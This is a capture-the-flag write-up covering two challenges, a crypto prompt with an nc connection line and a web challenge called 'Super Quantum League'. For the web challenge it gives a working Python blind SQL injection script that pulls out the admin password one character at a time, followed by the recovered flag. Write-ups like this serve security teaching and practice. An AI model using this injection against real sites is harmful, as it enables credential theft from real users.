
---

# Suspicious Server

> Points: 100 | Category: Crypto | Author: The Crafters

This server is pretty sus

https://imaginary.ml/r/57B0-player.txt, `nc oreos.imaginary.ml 7777`

---

---

# Super Quantum League

> Points: 97 | Category: Web | Author: Eth007

The `admin` user looks interesting

The flag is the password of the `admin` user

- http://superquantumleague.imaginary.ml/
- https://imaginary.ml/r/A72B-superquantumleague.py

---

This is a blind SQL injection challenge.

```py
import requests
from string import printable

flag = "ictf{"
url = "https://superquantumleague.imaginary.ml/user?username="

while flag[-1] != "}":
    for c in printable:
        query = f"admin' AND password LIKE \'%{flag}\{c}%\' ESCAPE '\\';--"
        r = requests.get(url + query)
        if r.text == 'Welcome, admin. You logged in. The flag is not ictf{fake_flag}.':
            flag += c
            print(flag)
            break
```

`ictf{bl1nd_1nj3ct1on_ftw_5a7566bc}`

---
